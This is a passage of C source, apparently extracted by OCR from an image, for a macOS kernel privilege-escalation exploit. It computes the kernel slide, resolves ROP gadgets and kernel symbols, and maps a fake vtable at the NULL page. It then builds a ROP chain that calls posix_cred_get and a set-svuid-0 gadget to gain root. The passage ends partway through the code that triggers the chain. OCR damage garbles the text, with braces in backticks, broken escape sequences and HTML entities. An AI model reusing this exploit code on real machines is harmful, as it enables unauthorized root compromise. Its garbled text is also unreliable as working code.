 ```
        return -1;
    `}`
    printf("t[+] kernel_slide: 0x%016llxn",kernel_slide);
    return 0;
`}`

int build_rop() `{`
    macho_map_t *map = map_file_with_path(KERNEL_PATH_ON_DISK);
    SET_KERNEL_SLIDE(kernel_slide);

    // Gadget
    uint64_t xchg_esp_eax_pop_rsp, xchg_rax_rdi, set_svuid_0;
    xchg_esp_eax_pop_rsp = XCHG_ESP_EAX_POP_RSP_INS(map);
    xchg_rax_rdi = XCHG_RAX_RDI_INS(map);
    set_svuid_0 = SET_SVUID_0_INS(map);
    printf("rn[&gt;] Find gadgetsn");
    printf("t[+] XCHG_ESP_EAX_POP_RSP_INS: 0x%016llxn",xchg_esp_eax_pop_rsp);
    printf("t[+] XCHG_RAX_RDI_INS: 0x%016llxn",xchg_rax_rdi);
    printf("t[+] SET_SVUID_0_INS: 0x%016llxn",set_svuid_0);

    // Symbol
    uint64_t current_proc, proc_ucred, posix_cred_get, thread_exception_return;
    current_proc = SLIDE_POINTER(find_symbol_address(map, "_current_proc"));
    proc_ucred = SLIDE_POINTER(find_symbol_address(map, "_proc_ucred"));
    posix_cred_get = SLIDE_POINTER(find_symbol_address(map, "_posix_cred_get"));
    thread_exception_return = SLIDE_POINTER(find_symbol_address(map, "_thread_exception_return"));
    printf("rn[&gt;] Find symbolsn");
    printf("t[+] _current_proc: 0x%016llxn",current_proc);
    printf("t[+] _proc_ucred: 0x%016llxn",proc_ucred);
    printf("t[+] _posix_cred_get: 0x%016llxn",posix_cred_get);
    printf("t[+] _thread_exception_return: 0x%016llxn",thread_exception_return);

    vm_address_t payload_addr = 0;
    size_t size = 0x1000;
    // In case we are re-executing, deallocate the NULL page.
    vm_deallocate(mach_task_self(), payload_addr, size);
    kern_return_t kr = vm_allocate(mach_task_self(), &amp;payload_addr, size, 0);
    if (kr != KERN_SUCCESS) `{`
        printf("t[-] error: could not allocate NULL page for payloadn");
        return -1;
    `}`
    uint64_t * vtable = (uint64_t *)payload_addr;
    uint64_t * rop_stack = ((uint64_t *)(payload_addr + size)) - 8;
    // Virtual method 4 is called in the kernel with rax set to 0.
    vtable[0] = (uint64_t)rop_stack;        //  *0 = rop_stack                  
    vtable[4] = xchg_esp_eax_pop_rsp;       //  rsp = 0; rsp = *rsp; start rop  
    rop_stack[0] = current_proc;            //  rax = &amp;proc                     
    rop_stack[1] = xchg_rax_rdi;            //  rdi = &amp;proc                     
    rop_stack[2] = proc_ucred;              //  rax = &amp;cred                     
    rop_stack[3] = xchg_rax_rdi;            //  rdi = &amp;cred                     
    rop_stack[4] = posix_cred_get;          //  rax = &amp;posix_cred               
    rop_stack[5] = xchg_rax_rdi;            //  rdi = &amp;posix_cred               
    rop_stack[6] = set_svuid_0;             //  we are now setuid 0             
    rop_stack[7] = thread_exception_return; //  stop rop     

    return 0;                   
`}`

int exec_rop() `{`
    printf("rn[&gt;] Execute ropn");
    uint32_t data[] = `{`
        0x000000d3,                         //     magic                            
        0x81000010,                         //  0: OSDictionary                      
```